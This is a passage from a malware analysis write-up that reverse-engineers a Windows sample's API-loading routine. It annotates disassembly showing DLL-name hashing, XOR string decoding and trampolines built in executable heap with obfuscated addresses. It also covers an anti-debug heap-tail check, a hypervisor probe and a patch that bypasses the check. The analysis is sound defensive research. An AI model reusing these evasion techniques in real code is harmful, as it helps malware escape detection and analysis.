			To make the data visualisation easier, we will rename the global variable to `findclose_func`:
			<div align="center"></div>
.
		With the functions, first it will use [`FindFirstFileW`](https://learn.microsoft.com/en-us/windows/win32/api/fileapi/nf-fileapi-findfirstfilew) search for a specific folder, subfolder, or file; it can receive wildcard characters. [`FindNextFileW`](https://learn.microsoft.com/en-us/windows/win32/api/fileapi/nf-fileapi-findnextfilew) to go to the next matching file or folder, and then when the program doesn't want to continue searching files, it will close the file search handle with [`FindClose`](https://learn.microsoft.com/en-us/windows/win32/api/fileapi/nf-fileapi-findclose).
.
		After renaming the global variables, then we will analyse the rest of the function. First, after setting the global variable functions, it creates a local buffer, which will be filled with data by the function `FUN_00401658`, as it will be compared to zero.
```assembly
	LAB_00405ca6
LEA     EBX=>local_2dc,[EBP + 0xfffffd28]      ; EBX (local_2dc) = local buffer
PUSH    EBX                                    ; pass EBX (local buffer)
CALL    FUN_00401658                           ; call the function
    LAB_00405cb2                                   
CMP     word ptr [EBX]=>local_2dc,0x0          ; check local buffer not zero
JNZ     LAB_00405cdd                           ; jump if not empty
```
.
		- retrieve_system32_path_func (FUN_00401658):
			If we look at the assembly code, it loads the `SharedUserData` ([`KUSER_SHARED_DATA`](https://www.geoffchappell.com/studies/windows/km/ntoskrnl/inc/api/ntexapi_x/kuser_shared_data/index.htm))  in read-only mode from user mode; specifically at address `0x7FFE0000`, as shown in the [`ReactOS documentation`](https://doxygen.reactos.org/d8/dae/modules_2rostests_2winetests_2ntdll_2time_8c_source.html#l00237). It's also discussed in a [`Microsoft Blog post`](https://msrc.microsoft.com/blog/2022/04/randomizing-the-kuser_shared_data-structure-on-windows/) in the Security Research & Defense section, in order to mitigate the access by randomising access to `KUSER_SHARED_DATA` and loading the passed buffer as the destination buffer.
			
```assembly
MOV   ESI, 0x6ffd5fff
XOR   ESI, 0x10035fff                ; ESI = 0x6ffd5fff ^ 0x10035fff = 0x7FFE2000
LEA   ESI, [ESI + 0x30] ; ESI = 0x7FFE2030 -> SharedUserData (KUSER_SHARED_DATA)
MOV   EDI,dword ptr [EBP + param_1]  ; EDI = destination buffer (param_1)
```
.
			After that, we have two logical flows. The first one is that at `KUSER_SHARED_DATA` (address `0x7FFE2030`) we load words (`WCHAR`) stored there. If we look at the structure of [`KUSER_SHARED_DATA`](https://www.geoffchappell.com/studies/windows/km/ntoskrnl/inc/api/ntexapi_x/kuser_shared_data/index.htm), at the offset `0x30` we find the field `WCHAR NtSystemRoot [0x0104]` which contains the path to the Windows directory, based on Geoff Chappell’s documentation.
```assembly
	LAB_0040166e:
LODSW   ESI=>DAT_7ffe0030     ; load WCHAR from ESI into AX
TEST    AX,AX                 ; check if AX (char) is null
JNZ     LAB_004016ae          ; jump if not null (continue copying)
...
	LAB_004016ae:
STOSW   ES:EDI                ; store WCHAR from AX into [EDI], destination buffer
JMP     LAB_0040166e          ; repeat loop
```
.
			When there are no more `WCHAR` to store at the destination buffer, we will do another logic flow where we will append multiple characters. It also does multiple `XOR`, but if we look at the decompiled code and convert each byte to ASCII, we can see that it appends the string `\System32`.
			<div align="center"></div>
			To know the contents of [`KUSER_SHARED_DATA`](https://www.geoffchappell.com/studies/windows/km/ntoskrnl/inc/api/ntexapi_x/kuser_shared_data/index.htm), because we cannot see it statically as it's loaded when the program is running, we will debug it with x32dbg by putting a breakpoint after the function is executed.  
			There we can clearly see that it constructs the string `C:\Windows\System32`, so it obtains a correct route to our System32 folder, confirming the documentation of Geoff Chappell.
			<div align="center"></div>
			Because the function retrieves the System32 folder, we will rename the function `retrieve_system32_path_func`.
			<div align="center"></div>
		After retrieving the System32 path, unique to the computer, it then advances the pointer of the local buffer that holds the System32 path until it finds a null character, in order to append data that is encoded but will be decoded by the function `FUN_00401240`:
```assembly
CALL    retrieve_system32_path_func             ; retrieve path to system32
	LAB_00405cb2:
CMP     word ptr [EBX]=>local_2dc,0x0           ; take at the buffer a word
JNZ     LAB_00405cdd                            ; if not empty jump
MOV     dword ptr [EBX]=>local_2dc,0xefd6a05c   ; appends encoded data
MOV     dword ptr [EBX + local_2d8],0xef98a02e  ; appends more encoded data
MOV     dword ptr [EBX + local_2d4],0xef90a06c  ; appends more encoded data
MOV     dword ptr [EBX + local_2d0],0xeffca000  ; appends more encoded data
PUSH    0x4                                     ; pass 0x4 to the function
PUSH    EBX                                     ; pash buffer with system32 path
CALL    FUN_00401240                            ; decode appended data
JMP     LAB_00405ce2
	LAB_00405cdd:                               ; advances pointer until null wchar
												; to append data to system32 path
ADD     EBX,0x2                                 ; move pointer next wchar
JMP     LAB_00405cb2                            ; check again
	LAB_00405ce2:
...
```
.
		- decode_n_blocks_w_mask_func (FUN_00401240):
			The function is quite simple; it just decodes the appended data using the mask `0x10035FFF` in blocks of `DWORD` size (4 bytes).
```assembly
MOV ECX, [EBP + param_1] ; ECX = system32 buffer starting at appended encoded data
MOV EDX, [EBP + param_2]     ; EDX = number of DWORD blocks to process (e.g., 0x4)
    LAB_0040124c:
XOR dword ptr [ECX], 0x10035FFF  ; apply XOR decryption mask
NOT dword ptr [ECX]              ; invert all bits (bitwise NOT)
ADD ECX, 0x4                     ; advance buffer to next DWORD
DEC EDX                          ; decrement block counter
JNZ LAB_0040124c                 ; repeat until all blocks have been processed
```
.
			With that being clear, we will rename the function to `decode_n_blocks_w_mask_func`:
			<div align="center"></div>
		To see the changes of the function `decode_n_blocks_w_mask_func`, we will use x32dbg. There, we can see it appends `\\*.dll`.
		<div align="center"></div>
		If we look at the EBX register, we can see the whole constructed string `C:\Windows\System32\*.dll`.
		<div align="center"></div>
		After clearing up the previous function, we will continue analysing. 
		If we look at the assembly code, it is quite hard to follow, but what it does is set a buffer for a [`_WIN32_FIND_DATAW`](https://learn.microsoft.com/en-us/windows/win32/api/minwinbase/ns-minwinbase-win32_find_dataw), which will be the returned structure by the [`FindFirstFileW`](https://learn.microsoft.com/en-us/windows/win32/api/fileapi/nf-fileapi-findfirstfilew) function. This function will be invoked with the path containing wildcards `{Windows_path}\System32\*.dll`, searching for all the DLLs in System32 until it finds one whose DLL name, when hashed with the custom hashing function, matches the one passed as a parameter. The name is retrieved from the structure (at address `0xFFFFFDA8`) with an offset of `0x2C` that points to the `WCHAR cFileName[MAX_PATH]`, the DLL name, as we can see looking at the [`_WIN32_FIND_DATAW`](https://learn.microsoft.com/en-us/windows/win32/api/minwinbase/ns-minwinbase-win32_find_dataw) structure:

```c
typedef struct _WIN32_FIND_DATAW {
  DWORD    dwFileAttributes;         // 0x00
  FILETIME ftCreationTime;           // 0x04
  FILETIME ftLastAccessTime;         // 0x0C
  FILETIME ftLastWriteTime;          // 0x14
  DWORD    nFileSizeHigh;            // 0x1C
  DWORD    nFileSizeLow;             // 0x20
  DWORD    dwReserved0;              // 0x24
  DWORD    dwReserved1;              // 0x28
  WCHAR    cFileName[MAX_PATH];      // 0x2C (MAX_PATH = 260 WCHARs = 520 bytes)
  WCHAR    cAlternateFileName[14];   // 0x234 (14 WCHARs = 28 bytes)
  DWORD    dwFileType;               // 0x250
  DWORD    dwCreatorType;            // 0x254
  WORD     wFinderFlags;             // 0x258
} WIN32_FIND_DATAW, *PWIN32_FIND_DATAW, *LPWIN32_FIND_DATAW;
```
.
		If it finds a matching DLL, it retrieves its handle with `get_dll_handle_w_string`, which we commented on before. If it doesn't match, it replaces the `.dll` in the wildcard string with `.drv`, which is another type implemented as a DLL based on [`Microsoft documentation`](https://learn.microsoft.com/en-us/troubleshoot/windows-client/setup-upgrade-and-drivers/dynamic-link-library), making the string look like `{Windows_path}\System32\*.drv`, and tries the whole process again. It returns the handle if the hash obtained with the custom hashing function matches, but if it doesn't find any, then it returns 0.

```assembly
CALL    decode_n_blocks_w_mask_func        ; decodes data appended at the end of the buffer (e.g., "*.dll")
JMP     LAB_00405ce2                       ; jumps to the next block
...
	LAB_00405ce2:
MOV     dword ptr [EBP + local_8],0x0     ; initializes local_8 to 0 (match count)
	LAB_00405ce9:
LEA  EAX=>local_25c,[EBP + 0xfffffda8] ; EAX = local_25c buffer (WIN32_FIND_DATAW)
PUSH    EAX                               ; push structure to be filled as argument
LEA EAX=>local_2dc,[EBP + 0xfffffd28] ;EAX=local_2dc address(System32path+"\*.dll")
PUSH    EAX                               ; push path as argument
CALL    dword ptr [findfirstfilew_func]   ; call FindFirstFileW
MOV     dword ptr [EBP + local_c],EAX     ; store handle returned by FindFirstFileW
CMP     dword ptr [EBP + local_c],-0x1    ; check if handle is INVALID_HANDLE_VALUE
JZ      LAB_00405d54                      ; jump if invalid handle (no DLLs found)
	LAB_00405d06:
PUSH    0x0                               ; push 0 (unused arg)
LEA  EAX=>local_230,[EBP + 0xfffffdd4]  ; EAX = address of local_230 (DLL filename)
						                ; 0xFFFFFDA8 + 0x2C = 0xFFFFFDD4
PUSH    EAX                               ; push filename as arg
CALL    custom_hashing_function           ; compute hash of filename
CMP     EAX, dword ptr [EBP + param_1]    ; compare with provided hash (param_1)
JNZ     LAB_00405d37                      ; if different, skip to next DLL
PUSH    dword ptr [EBP + local_c]         ; push handle
CALL    dword ptr [findclose_func]        ; close search handle
PUSH    0x1                               ; push 1 (flag)
LEA     EAX=>local_230,[EBP + 0xfffffdd4] ; EAX = DLL name (0xFFFFFDA8 + 0x2C)
PUSH    EAX                               ; push DLL name
CALL    get_dll_handle_w_string       ; load DLL and return handle EAX = DLL handle
...
RET     0x4                               ; return handle of found DLL
	LAB_00405d37:
LEA     EAX=>local_25c,[EBP + 0xfffffda8] ; EAX = address of file data struct
PUSH    EAX                               ; pass address of file data struct
PUSH    dword ptr [EBP + local_c]         ; pass handle
CALL    dword ptr [findnextfilew_func]    ; call FindNextFileW
TEST    EAX,EAX                           ; check result
JNZ     LAB_00405d06                      ; if more files, loop again, if not end
PUSH    dword ptr [EBP + local_c]         ; pass handle
CALL    dword ptr [findclose_func]        ; close handle
	LAB_00405d54:
CMP     dword ptr [EBP + local_8],0x0   ; check if local_8 == 0 (found?)
JZ      LAB_00405d5c                 ; if not try again replacing .dll with .drv
JMP     LAB_00405d93                 ; else return 0 not found .dll or .drv (EAX=0)
	LAB_00405d5c:
LEA     EBX=>local_2dc,[EBP + 0xfffffd28] ; EBX = address(System32path+"\*.dll")
CMP     dword ptr [EBP + local_8],0x0     ; double-check if match count is still 0
JNZ     LAB_00405d8b                      ; if not, skip fallback (already matched)
	LAB_00405d68:
CMP     word ptr [EBX + local_2de],0x2e   ; check if current WCHAR is '.' (0x2E)
                                          ; in order to substitute .dll wih .drv
                                          ; "{Windows_path}\System32\\*.drv"
JNZ     LAB_00405d86                      ; if not '.', advance to next WCHAR
MOV dword ptr [EBX]=>local_2dc,0xef8ea064 ; encoded data block 1 'dr'
                                          ; ~(0xef8ea064 ^ 0x10035FFF) = 0x00720064
MOV dword ptr [EBX + local_2d8],0xeffca076 ; encoded data block 2 'v'
										  ; ~(0xeffca076 ^ 0x10035FFF) = 0xffffff89
PUSH    0x2                            ; pass number of blocks (2 DWORDs = 8 bytes)
PUSH    EBX                               ; pointer to encoded data
CALL    decode_n_blocks_w_mask_func       ; decode blocks
JMP     LAB_00405d8b                      ; skip pointer increment, to start again 
										  ; but instead of .dll wit .drv
	LAB_00405d86:
ADD     EBX, 0x2                          ; advance pointer to next WCHAR
JMP     LAB_00405d68                      ; repeat scan
	LAB_00405d8b:
INC     dword ptr [EBP + local_8]         ; increment match count
JMP     LAB_00405ce9                      ; restart full scan process w/ new match
LAB_00405d93:
MOV     EAX, 0x0                          ; function return value = 0
...
RET     0x4                               ; return
```
.
		Being clear on this, we will rename the function to `sys32_dll_or_drv_hash_function`:
		<div align="center"></div>
	After understanding the functionality of `sys32_dll_or_drv_hash_function`, we will continue. This function attempts to obtain a handle to a DLL (`.dll` or `.drv`) with a passed hash, previously modified with an `XOR`. If the handle is not valid, it finishes the function returning zero (`EAX=0`); otherwise, it advances the `param1` pointer by 4 bytes and then enters a loop where, at each iteration, it retrieves the next 4 pointers of `param_2` until it finds `0xcccccccc`, finishing its execution.
```assembly
CALL    sys32_dll_or_drv_hash_function   ; EAX = handle of dll or drv
TEST    EAX,EAX                          ; check if handle valid != 0
JZ      LAB_00405ee0                     ; if not valid = 0 then it returns zero
MOV     EDI,dword ptr [EBP + param_1]    ; EDI = value of param_1
ADD     EDI,0x4                          ; Skip first 4 bytes → EDI = (param_1 + 4)
	LAB_00405dc3:
LODSD      ESI                       ; EAX = retrieve next 4 bytes of ESI (param_2)
CMP        EAX,0xcccccccc            ; EAX = 0xcccccccc?
JNZ        LAB_00405dd0              ; If not equal then executes logic
JMP        LAB_00405ee0              ; if equal the function ends
	LAB_00405dd0:
... {normal logical flow executed}
	LAB_00405edb:
JMP        LAB_00405dc3                  ; when finished the normal logical flow
										 ; starts again
	LAB_00405ee0:
...                             
RET        0x10
```
.
	Now, regarding the logic we will analyse, it is difficult to understand what the program is doing.
	Starting with the parameters:
	- `param_1` is an address where pointers to allocated heaps will be stored. These heaps are allocated with [`RtlAllocateHeap`](https://learn.microsoft.com/en-us/windows-hardware/drivers/ddi/ntifs/nf-ntifs-rtlallocateheap).  
	- `param_2` is obfuscated data of hashes, where the first 4 bytes represent an obfuscated hash used to retrieve a DLL (.dll or .drv), and the rest of the data, in blocks of 4 bytes (DWORD), are obfuscated hashes of API functions of the DLL.  
	- `param_3` is the handle from [`RtlCreateHeap`](https://learn.microsoft.com/en-us/windows-hardware/drivers/ddi/ntifs/nf-ntifs-rtlcreateheap) used to allocate the heap.  
	- `param_4` is a pointer to the function [`RtlAllocateHeap`](https://learn.microsoft.com/en-us/windows-hardware/drivers/ddi/ntifs/nf-ntifs-rtlallocateheap).
	For each successfully retrieved API, it writes code in the allocated heap to be executed. Looking at the hexadecimal code and converting it to instructions using this [`source`](http://ref.x86asm.net/coder32.html) as a reference makes sense, especially considering there was a flag to make the allocated heap executable.
	Before writing to the local heap, the function `FUN_0040110c` determines how the resolved API address (`EBX`) will be obfuscated, corrupted, or both, and then stored in the allocated buffer. Based on its return value (0–4), a small trampoline is constructed that decodes the address at runtime and jumps to it, enabling **evasion**, **obfuscation**, and **anti-debugging**.

| Return | Technique Used            | Description                                                                                                                                        |
| ------ | ------------------------- | -------------------------------------------------------------------------------------------------------------------------------------------------- |
| `0`    | `ROL` + `JMP EAX`         | Stores a corrupted version of the API address using a left rotation (ROL). Then creates trampoline code to reverse it using `ROR`.                 |
| `1`    | `ROR` + `JMP EAX`         | Stores the API address corrupted with a right rotation (ROR), and generates code to undo it using `ROL`.                                           |
| `2`    | `XOR` + `JMP EAX`         | Obfuscates the API address with XOR against `0x10035FFF`, stores the obfuscated value and the mask, and builds trampoline to deobfuscate and jump. |
| `3`    | `ROL` + `XOR` + `JMP EAX` | First obfuscates the API address with XOR, then corrupts it with a left rotation. Trampoline applies reverse operations: `ROR`, `XOR`, then jump.  |
| `4`    | `ROR` + `XOR` + `JMP EAX` | XOR obfuscation followed by right rotation. Trampoline reverses with `ROL`, `XOR`, then jump.                                                      |

.
	- 🔢 Return value: `0`
		- **API address modification**:
			`ROL EBX, CL` → API address is corrupted via left rotation by `CL`.
		- **Trampoline generated (written at `EDX`)**:
		    `MOV EAX, corupt_api_addr`        ; 0xB8 + 4-byte EBX
		    `ROR EAX, CL`                                ; 0xC8C1 + CL
		    `JMP EAX`                                       ; 0xFFE0
	- 🔢 Return value: `1`
		- **API address modification**:
			`ROR EBX, CL` → API address is corrupted via right rotation by `CL`.
		- **Trampoline generated (written at `EDX`)**:
		    `MOV EAX, corrupt_api_addr`        ; 0xB8 + 4-byte EBX  
		    `ROL EAX, CL`                                  ; 0xC0C1 + CL  
		    `JMP EAX`                                         ; 0xFFE0  
	- 🔢 Return value: `2`
		- **API address modification**:
			`XOR EBX, 0x10035FFF` → API address is obfuscated using XOR with a fixed mask.
		- **Trampoline generated (written at `EDX`)**:
		    `MOV EAX, obfuscated_api_addr`     ; 0xB8 + 4-byte EBX  
		    `XOR EAX, 0x10035FFF`                      ; 0x35 + 4-byte mask  
		    `JMP EAX`                                            ; 0xFFE0 
	- 🔢 Return value: `3`
		- **API address modification**:
			`XOR EBX, 0x10035FFF` → obfuscate  
			`ROL EBX, CL` → then corrupt via left rotation
		- **Trampoline generated (written at `EDX`)**:
		    `MOV EAX, corrupt_obf_api_addr`    ; 0xB8 + 4-byte EBX  
		    `ROR EAX, CL`                                      ; 0xC8C1 + CL  
		    `XOR EAX, 0x10035FFF`                       ; 0x35 + 4-byte mask  
		    `JMP EAX`                                             ; 0xFFE0 
	- 🔢 Return value: `4`
		- **API address modification**:
			`XOR EBX, 0x10035FFF` → obfuscate  
			`ROR EBX, CL` → then corrupt via right rotation
		- **Trampoline generated (written at `EDX`)**:
		    `MOV EAX, corrupt_obf_api_addr`    ; 0xB8 + 4-byte EBX  
		    `ROL EAX, CL`                      ; 0xC0C1 + CL  
		    `XOR EAX, 0x10035FFF`              ; 0x35 + 4-byte mask  
		    `JMP EAX`                          ; 0xFFE0  
    
```assembly
	LAB_00405dc3:
LODSD      ESI                       ; EAX = retrieve next 4 bytes of ESI (param_2)
CMP        EAX,0xcccccccc           ; Check for termination marker 0xcccccc, end of
								    ; data (MSVC uninitialized stack data pattern)
JNZ        LAB_00405dd0              ; If not equal then executes logic
JMP        LAB_00405ee0              ; if equal the function ends
	LAB_00405dd0:
XOR        EAX,0x10035fff ; XOR value EAX (param_2 4 bytes) with mask 0x10035FFF
PUSH       EAX                       ; pass the result (hash) to the function
CALL       api_hashing_func          ; resolve real function address w/ hash
MOV        EBX,EAX                   ; store resolved API address in EBX
PUSH       0x10                      ; pass size (16 bytes), data amount to alloc
PUSH       0x0                       ; pass flags
PUSH       dword ptr [EBP + param_3] ; pass created heap handle (param_3)
CALL       dword ptr [EBP + param_4] ; call RtlAllocateHeap w/args(heap,flags,size)
									 ; EAX = address of allocated buffer on heap
MOV        ECX,0xbba8f454            ; move obfuscated 0xbba8f454 to ECX
XOR        ECX,0x10035fff            ; ECX = 0xbba8f454^0x10035fff -> 0xABABABAB
									 ; appended data at the tail when debugging 
									; (HEAP_TAIL_CHECKING_ENABLED), anti-debug tech
CMP       dword ptr [EAX + 0x10],ECX ; check if tail of allocated data equals
									 ; ECX (0xABABABAB)
JZ         LAB_00405df8             ; if matches is debugged, skip write to param_1
STOSD      ES:EDI                    ; else it's not debugged store allocated 
									 ; pointer, eax (param_1), to [EDI], because
									 ; param_1 is to store alloc addresses of
									 ; functions
; alloc_ptr = MOV EAX, corrupt_api_addr
;             ROR EAX, cl_rotate
;             JMP EAX
	LAB_00405df8:
MOV        byte ptr [EAX],0xb8     ; write byte 0xB8 at EAX (opcode MOV EAX, imm32)
								   ; at the start of allocated buffer
MOV        EDX,EAX                   ; EDX = EAX, allocated buffer pointer
PUSH       0x4                       ; pass 4
PUSH       0x0                       ; pass 0
CALL       FUN_0040110c              ; call random number generator (0-4)
TEST       EAX,EAX                   ; test if return is zero
JNZ        LAB_00405e2e              ; if not zero, jump
PUSH       0x9                       ; pass 9
PUSH       0x1                       ; pass 1
CALL       FUN_0040110c              ; call random number generator (1-9)
MOV        ECX,EAX                   ; ECX(CL) = return value
ROL        EBX,CL                    ; rotate EBX, api address, left by CL bits
									 ; to corrupt the address
MOV        dword ptr [EDX + 0x1],EBX ; store EBX, corrupted api address, at
                                     ; allocated buffer EDX+1
MOV        word ptr [EDX + 0x5],0xc8c1 ; write opcode for ROR instruction, to undo
									 ; the rol that corrupted the api address at
									 ; allocated buffer EDX+5
MOV        byte ptr [EDX + 0x7],CL   ; store rotation count, in order to uncorrupt
									 ; api address, at allocated buffer EDX+7
MOV        word ptr [EDX + 0x8],0xe0ff; store "jmp EAX" at allocated buffer EDX+8
JMP        LAB_00405edb              ; jump to go to next function to dehash
; alloc_ptr = MOV EAX, corrupt_api_addr
;             ROL EAX, cl_rotate
;             JMP EAX
	LAB_00405e2e:
CMP        EAX,0x1                   ; compare return of FUN_0040110c with 1
JNZ        LAB_00405e57              ; if not, jump mext label
PUSH       0x9                       ; pass 9
PUSH       0x1                       ; pass 1
CALL       FUN_0040110c              ; call random number generator (1-9)
MOV        ECX,EAX                   ; ECX(CL) = return value
ROR        EBX,CL                    ; rotate EBX, api address, right by CL bits
MOV        dword ptr [EDX + 0x1],EBX ; store EBX, corrupted api address
MOV        word ptr [EDX + 0x5],0xc0c1 ; write opcode for ROL instruction, to undo
									   ; the ROR that corrupted the obfuscated api 
									   ; address at allocated buffer EDX+5
MOV        byte ptr [EDX + 0x7],CL   ; store rotation count, in order to uncorrupt
									 ; api address, at allocated buffer EDX+7
MOV        word ptr [EDX + 0x8],0xe0ff; store "jmp EAX" at allocated buffer EDX+8
JMP        LAB_00405edb              ; jump to go to next function to dehash
; alloc_ptr = MOV EAX, obf_api_addr
;             XOR EAX, 0x10035fff
;             JMP EAX
	LAB_00405e57:
CMP        EAX,0x2                   ; compare return of FUN_0040110c with 2
JNZ        LAB_00405e75              ; if not 2, jump next label
MOV        EAX,0x10035fff            ; move mask 0x10035fff to EAX
XOR        EBX,EAX                   ; obfuscate api address with mask
MOV        dword ptr [EDX + 0x1],EBX ; store EBX, obfuscated api address, at
									 ; allocated buffer EBX+1
MOV        byte ptr [EDX + 0x5],0x35 ; store XOR EAX at allocated buffer EDX+5
MOV        dword ptr [EDX + 0x6],EAX ; store mask at allocated buffer EDX+6
									 ; to deobfuscate the api address
MOV        word ptr [EDX + 0xa],0xe0ff; store "jmp EAX" at allocated buffer EDX+10
JMP        LAB_00405edb              ; jump to go to next function to dehash
; alloc_ptr = MOV EAX, corrupt_obf_api_addr
;             ROR EAX, cl_rotate
;             XOR EAX, 0x10035fff
;             JMP EAX
	LAB_00405e75:
CMP        EAX,0x3                   ; check if 3
JNZ        LAB_00405ea9              ; if not 3, jump next label
PUSH       0x9                       ; pass 9
PUSH       0x1                       ; pass 1
CALL       FUN_0040110c              ; call random number generator (1-9)
MOV        ECX,EAX                   ; ECX(CL) = return value 
MOV        EAX,0x10035fff            ; move mask 0x10035fff to EAX
XOR        EBX,EAX                   ; obfuscate api address with mask
ROL        EBX,CL             ; rotate EBX, obfuscated api address, left by CL bits
MOV        dword ptr [EDX + 0x1],EBX ; store EBX, obfuscated corrupt api address,
									 ; at allocated buffer EBX+1
MOV        word ptr [EDX + 0x5],0xc8c1 ; write opcode for ROR instruction, to undo
									   ; the ROL that corrupted the obfuscated api 
									   ; address at allocated buffer EDX+5
MOV        byte ptr [EDX + 0x7],CL ; store rotation count, in order to uncorrupt
								   ; obfuscated api address, at allocated buffer 
								   ; EDX+7
MOV        byte ptr [EDX + 0x8],0x35 ; store XOR EAX at allocated buffer EDX+8
MOV        dword ptr [EDX + 0x9],EAX ; store mask at allocated buffer EDX+9
									 ; to deobfuscate the api address
MOV        word ptr [EDX + 0xd],0xe0ff ; store "jmp EAX" at allocated buffer EDX+13
JMP        LAB_00405edb              ; jump to go to next function to dehash
; alloc_ptr = MOV EAX, corrupt_obf_api_addr
;             ROL EAX, cl_rotate
;             XOR EAX, 0x10035fff
;             JMP EAX
	LAB_00405ea9:
CMP        EAX,0x4                   ; check if 4
JNZ        LAB_00405edb              ; != 4, jump next label (next function dehash)
PUSH       0x9                       ; pass 9
PUSH       0x1                       ; pass 1
CALL       FUN_0040110c              ; call random number generator (1-9)
MOV        ECX,EAX                   ; ECX(CL) = return value 
MOV        EAX,0x10035fff            ; move mask 0x10035fff to EAX
XOR        EBX,EAX                   ; obfuscate api address with mask
ROR        EBX,CL            ; rotate EBX, obfuscated api address, right by CL bits
MOV        dword ptr [EDX + 0x1],EBX ; store EBX, obfuscated corrupt api address,
									 ; at allocated buffer EBX+1
MOV        word ptr [EDX + 0x5],0xc0c1 ; write opcode for ROL instruction, to undo
									   ; the ROR that corrupted the obfuscated api 
									   ; address at allocated buffer EDX+5
MOV        byte ptr [EDX + 0x7],CL ; store rotation count, in order to uncorrupt
								   ; obfuscated api address, at allocated buffer 
								   ; EDX+7
MOV        byte ptr [EDX + 0x8],0x35 ; store XOR EAX at allocated buffer EDX+8
MOV        dword ptr [EDX + 0x9],EAX ; store mask at allocated buffer EDX+9
									 ; to deobfuscate the api address
MOV        word ptr [EDX + 0xd],0xe0ff ; store "jmp EAX" at allocated buffer EDX+13

	LAB_00405edb:
JMP        LAB_00405dc3              ; loop to next entry

	LAB_00405ee0:
...                             
RET        0x10
```
Before finishing with this function, here is the functionality of the random number generator:
	- generate_randnumber_lcg_func (FUN_0040110c):
		This function, after analysing the function `generate_seed_func` (`FUN_004010bc`), resembles or is actually the [Linear Congruential Method by Lehmer (Donald Knuth, _The Art of Computer Programming_, Vol. 2: Seminumerical Algorithms.)](https://seriouscomputerist.atariverse.com/media/pdf/book/Art%20of%20Computer%20Programming%20-%20Volume%202%20(Seminumerical%20Algorithms).pdf), because it uses the same formula: (aX+c) mod m -> a (`0x19660d`), X (`generate_seed_func` result), c (0x3c6ef35f), `ECX` (param_2 + 1).
```assembly
...
    LAB_00401111:                                 
CALL       generate_seed_func           ; get 64 bit random seed EDX:EAX, LCG (Xn)
MOV        ECX,0x19660d                 ; ECX = 0x19660d, const multiplier LCG (a)
MUL        ECX                          ; EDX:EAX=EAX*ECX (64 bit multiplication)
ADD        EAX,0x3c6ef35f               ; EAX = 0x3c6ef35f, const increment LCG (c)
AND        EAX,0x7ffffff                ; limit EAX range to 27 bits, masking
MOV        ECX,dword ptr [EBP + param_2] ; ECX = 4 bytes of param_2
INC        ECX                          ; ECX = ECX + 1 (inclusive bound)
XOR        EDX,EDX                       ; EDX = 0
DIV        ECX                          ; EAX/ECX-> EAX = quotient, EDX = remainder
XCHG       EAX,EDX                       ; EAX <-> EDX, exchange values
                                         ; EAX = remainder, EDX = quotient
CMP        EAX,dword ptr [EBP + param_1] ; if EAX < param_1 -> out of lower bound
JC         LAB_0040117d                  ; retry loop
CMP        EAX,dword ptr [EBP + param_2] ; if EAX > param_1 -> out of upper bound
JA         LAB_0040117d                  ; retry loop
...
RET        0x8                           ; return EAX, value between param_1
									     ; and param_2
    LAB_0040117d:                               
JMP        LAB_00401111                  ; retry loop
```
.
		- generate_seed_func (FUN_004010bc):
			At this function, a seed to generate a random number of 64 bits `EDX:EAX` is retrieved. If it detects it is running on a VM, by checking the register `0x40000000`, based on [`Microsoft documentation`](https://learn.microsoft.com/en-us/virtualization/hyper-v-on-windows/tlfs/feature-discovery), has data indicating Windows is running on a hypervisor, if that's the case, then it uses `RDRAND` to get a hardware-generated random number. If it is not a VM, it obtains the seed with `RDSEED`. If both fail, it uses as seed the timestamp counter rotated 13 bits to the right with `ROR` for the first 32 bits and does the same but rotating 13 bits to the left for the next 32 bits.
```assembly
...
PUSH       0x1                   ; Pass 1 for CPUID input
POP        EAX                   ; Set EAX = 1
CPUID                            ; Get CPU feature flags
TEST       ECX,0x40000000        ; Check ECX[30]: hypervisor present?
SETNZ      AL                    ; AL = 1 if bit is set (running in VM)
TEST       AL,AL                 ; Check result
JZ         LAB_004010d9          ; If not set is not in a VM, then jump next check
; --- If hypervisor present, try to use RDRAND ---
RDRAND     EAX                   ; Get hardware random number (lower 32 bits)
RDRAND     EDX                   ; Get hardware random number (upper 32 bits)
...
RET                              ; Return EDX:EAX as result
	LAB_004010d9:
PUSH       0x7                   ; Pass 7 for CPUID input
POP        EAX                   ; EAX = 7
XOR        ECX,ECX               ; Clear ECX
CPUID                            ; Get extended features
TEST       EBX,0x40000           ; Check EBX[18]: RDSEED supported?
SETNZ      AL                    ; AL = 1 if supported
TEST       AL,AL                 ; Check result
JZ         LAB_004010f6          ; If not supported try with time stamp
; --- If RDSEED supported, use it ---
RDSEED     EAX                   ; Get seed value (lower)
RDSEED     EDX                   ; Get seed value (upper)
...
RET                              ; Return EDX:EAX
	LAB_004010f6:
RDTSC                            ; Read time stamp counter into EDX:EAX
MOV        ECX,EAX               ; Copy low part to ECX
ROR        ECX,0xd               ; Rotate ECX right by 13
RDTSC                            ; Read time stamp counter again
MOV        EDX,EAX               ; EDX = second low timestamp
ROL        EDX,0xd               ; Rotate EDX left by 13
MOV        EAX,ECX               ; Final EAX = rotated first timestamp
...
RET                              ; Return EDX:EAX as pseudo-random
```
.
			Based on this, the function will be renamed to `generate_seed_func`:
			<div align="center"></div>
		Being the function clear, we will rename it to `generate_randnumber_lcg_func`:
		<div align="center"></div>
	So, we will rename the function to `load_apis_func`:
	<div align="center"></div>
  
Now, the next step is to retrieve all the imported APIs one by one with each call to see which ones are being retrieved, putting a breakpoint when retrieving the API with the `api_hashing_func` function:

---

Before doing anything, we will need to patch once again the executable to avoid the anti-debug technique at this line of the `load_apis_func` function:
```assembly
MOV        ECX,0xbba8f454           : move obfuscated 0xbba8f454 to ECX
XOR        ECX,0x10035fff           ; ECX = 0xbba8f454^0x10035fff -> 0xABABABAB
									; appended data at the tail when debugging 
									; (HEAP_TAIL_CHECKING_ENABLED), anti-debug tech
CMP       dword ptr [EAX + 0x10],ECX ; check if tail of allocated data equals
									 ; ECX (0xABABABAB)
JZ         LAB_00405df8              ; substitute this for NOP to not skip if debug
STOSD      ES:EDI                    
```
As we did before, substitute this for `NOP`:
<div align="center"></div>

<div align="center"></div>

<div align="center"></div>

And export it to the original file format:
<div align="center"></div>

<div align="center"></div>


---

- address `0x42540c` ([`ntdll.dll`]([`NTDLL`](https://www.geoffchappell.com/studies/windows/win32/ntdll/index.htm?tx=21,24))):
<div align="center"></div>

First 4 bytes of param_2 are the hash of [`ntdll.dll`](https://www.geoffchappell.com/studies/windows/win32/ntdll/index.htm?tx=21,24) DLL.
<div align="center"></div>
